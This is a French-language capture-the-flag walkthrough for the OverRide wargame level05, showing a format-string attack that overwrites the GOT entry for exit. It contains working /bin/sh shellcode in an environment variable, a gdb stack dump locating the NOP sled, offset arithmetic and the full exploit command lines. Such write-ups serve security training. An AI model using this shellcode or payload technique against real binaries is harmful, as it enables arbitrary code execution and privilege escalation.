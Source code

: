 # Level05

Nous devons réaliser un GOT Override, grace à l'exploit sur `printf`

On va remplacer l'adresse d'exit qui est appelé juste après printf par l'adresse de notre shellcode
que nous placerons dans l'env.

On cherche l'adresse d'exit dans la GOT avec objdump -R
```
./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```
On trouve 0x080497e0

Maintenant, on cherche l'offset auquel printf peut override
```
level05@OverRide:~$ python -c 'print "B"*4 + "%08x."*20' | ./level05
bbbb00000064.f7fcfac0.f7ec3add.ffffd66f.ffffd66e.00000000.ffffffff.ffffd6f4.f7fdb000.62626262.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.
```

On trouve donc nos B à la 10ième positions. (On voit que c'est 62 et non 42, vu que notre string est mis en minuscule)
```
level05@OverRide:~$ ./level05
BBBB%10$p
bbbb0x62626262
```

On place notre shellcode dans l'env précédé de 100 NOP:
```
export SHELLCODE=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x
68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"'`
```

On cherche l'adresse d'un NOP slide dans la stack:
```
level05@OverRide:~$ gdb ./level05
Breakpoint 1, 0x08048444 in main ()
(gdb) x/200x $esp
0xffffd69c:     0xf7e45513      0x00000001      0xffffd734      0xffffd73c
0xffffd6ac:     0xf7fd3000      0x00000000      0xffffd71c      0xffffd73c
0xffffd6bc:     0x00000000      0x08048230      0xf7fceff4      0x00000000
0xffffd6cc:     0x00000000      0x00000000      0xd42d9c6d      0xe329787d
0xffffd6dc:     0x00000000      0x00000000      0x00000000      0x00000001
0xffffd6ec:     0x08048390      0x00000000      0xf7ff0a50      0xf7e45429
0xffffd6fc:     0xf7ffcff4      0x00000001      0x08048390      0x00000000
0xffffd70c:     0x080483b1      0x08048444      0x00000001      0xffffd734
0xffffd71c:     0x08048520      0x08048590      0xf7feb620      0xffffd72c
0xffffd72c:     0xf7ffd918      0x00000001      0xffffd853      0x00000000
0xffffd73c:     0xffffd86f      0xffffd8f5      0xffffd909      0xffffd919
0xffffd74c:     0xffffd938      0xffffd94b      0xffffd958      0xffffde79
0xffffd75c:     0xffffde85      0xffffde9c      0xffffdee9      0xffffdef8
0xffffd76c:     0xffffdf10      0xffffdf21      0xffffdf2a      0xffffdf32
0xffffd77c:     0xffffdf4b      0xffffdf5d      0xffffdf6d      0xffffdf9a
0xffffd78c:     0xffffdfba      0x00000000      0x00000020      0xf7fdb430
0xffffd79c:     0x00000021      0xf7fdb000      0x00000010      0x178bfbff
0xffffd7ac:     0x00000006      0x00001000      0x00000011      0x00000064
0xffffd7bc:     0x00000003      0x08048034      0x00000004      0x00000020
0xffffd7cc:     0x00000005      0x00000008      0x00000007      0xf7fdc000
0xffffd7dc:     0x00000008      0x00000000      0x00000009      0x08048390
0xffffd7ec:     0x0000000b      0x000003ed      0x0000000c      0x000003ed
0xffffd7fc:     0x0000000d      0x000003ed      0x0000000e      0x000003ed
0xffffd80c:     0x00000017      0x00000000      0x00000019      0xffffd83b
0xffffd81c:     0x0000001f      0xffffdfdc      0x0000000f      0xffffd84b
0xffffd82c:     0x00000000      0x00000000      0x00000000      0x49000000
0xffffd83c:     0x6e2246ac      0x6ac915c0      0x71b52c2c      0x6918d0fb
0xffffd84c:     0x00363836      0x2f000000      0x656d6f68      0x6573752f
0xffffd85c:     0x6c2f7372      0x6c657665      0x6c2f3530      0x6c657665
0xffffd86c:     0x53003530      0x4c4c4548      0x45444f43      0x9090903d
0xffffd87c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd88c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd89c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8ac:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8bc:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8cc:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8dc:     0x50c03190      0x732f6e68      0x2f2f6868      0xe3896962
0xffffd8ec:     0xd231c931      0x80cd0bb0      0x52455400      0x74783d4d
0xffffd8fc:     0x2d6d7265      0x63363532      0x726f6c6f      0x45485300
0xffffd90c:     0x2f3d4c4c      0x2f6e6962      0x68736162      0x48535300
0xffffd91c:     0x494c435f      0x3d544e45      0x302e3031      0x322e322e
0xffffd92c:     0x30373520      0x34203630      0x00323432      0x5f485353
```

On choisi l'adresse d'un NOP près du shellcode: 0xffffd8d0

Maintenant on va diviser notre adresse en 2 `short` pour pouvoir l'injecter sinon la valeur est trop grande.

```
$ node
> 0xd8d0
55504				; les 2 derniers octets en decimal
> 0xd8d0 - 8		; On enleve 8 pour l'adresse d'exit
55495
> 0xffff
65535				; les 2 premiers octets en decimal
> 0xffff - 0xd8d0	; les 2 premiers octets moins les 2 derniers deja écrits
10031
```

On peut maintenant exploiter le binaire avec la commande suivante:
```
(python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08%55496x%10$hn%10031x%11$hn"'; cat) | ./level05
```

Ou directement comme ca:
```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%" + str(0xd8d0 - 8) + "x%10$hn" +"%" + str(0xffff - 0xd8d0) + "x%11$n")';cat) | ./level05
```
